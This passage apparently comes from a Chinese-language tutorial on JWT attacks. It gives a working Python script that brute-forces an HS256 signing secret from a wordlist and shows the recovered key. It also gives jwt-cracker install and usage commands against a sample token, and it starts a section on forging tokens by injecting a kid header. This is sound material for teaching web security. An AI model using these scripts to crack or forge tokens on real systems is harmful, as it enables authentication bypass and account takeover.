 1. 因其他原因（如，jwt 字符串格式错误）导致校验失败，无法验证当前 key 是否有效。
综上分析，构造字典爆破脚本：

```
import jwt

jwt_json='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJpZCI6MX0.S5iudTeUBkKZa2Ah_MR_JdAsSBUFrnF3kn1FL-Cvsks'
with open('dict.txt',encoding='utf-8') as f:
        for line in f:
            key = line.strip()
            try:
                jwt.decode(jwt_json,verify=True,key=key,algorithm='HS256')
                print('found key! --&gt; ' +  key)
                break
            except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
                print('found key! --&gt; ' +  key)
                break
            except(jwt.exceptions.InvalidSignatureError):
                print('verify key! --&gt;' + key)
                continue
        else:
            print("key not found!")
```

运行后可以看到，成功爆破了 key 为 **abc123**

[![](https://p3.ssl.qhimg.com/t017d34faaba6bb2cf2.png)](https://p3.ssl.qhimg.com/t017d34faaba6bb2cf2.png)

如果没有字典，可以采取暴力遍历，可以直接使用 npm 安装 **jwt-cracker** , 方便快捷

```
npm install jwt-cracker
```

使用方法：

```
&gt; jwt-cracker "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJpZCI6MX0.S5iudTeUBkKZa2Ah_MR_JdAsSBUFrnF3kn1FL-Cvsks" "abcde0123456" 6
```

[![](https://p3.ssl.qhimg.com/t0121e9816168a5b597.png)](https://p3.ssl.qhimg.com/t0121e9816168a5b597.png)

## 篡改 jwt header，kid指定攻击

kid 即为 key ID ，存在于 jwt header 中，是一个可选的字段，用来指定加密算法的密钥

[![](https://p0.ssl.qhimg.com/t01b4d3a2c6c152cf54.png)](https://p0.ssl.qhimg.com/t01b4d3a2c6c152cf54.png)

如图，在头部注入新的 kid 字段，并指定 HS256 算法的 key 为 1，生成新的 jwt_json
